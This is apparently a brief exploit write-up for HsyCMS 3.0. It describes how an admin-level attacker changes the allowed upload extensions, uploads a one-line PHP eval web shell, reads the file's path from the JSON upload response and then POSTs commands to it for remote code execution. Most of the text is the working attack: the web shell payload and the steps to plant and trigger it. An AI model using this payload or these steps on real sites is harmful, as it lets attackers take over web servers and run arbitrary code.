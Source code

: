 # hsycms3.0-exp

'''
after logged in as admin 
'''

firstly change the config upload_ext



upload php file  <?php eval($_POST['cmd']);?>




get upload path   for example 

{"status":"y","info":"文件上传成功",
"url":"\/upload\/20200408\/e04236222373ddc238d016c390d38cc0.php",
"ext":"php",
"name":"e04236222373ddc238d016c390d38cc0"}



then open http://192.168.0.128:80/upload/20200408/e04236222373ddc238d016c390d38cc0.php and POST cmd to execute code

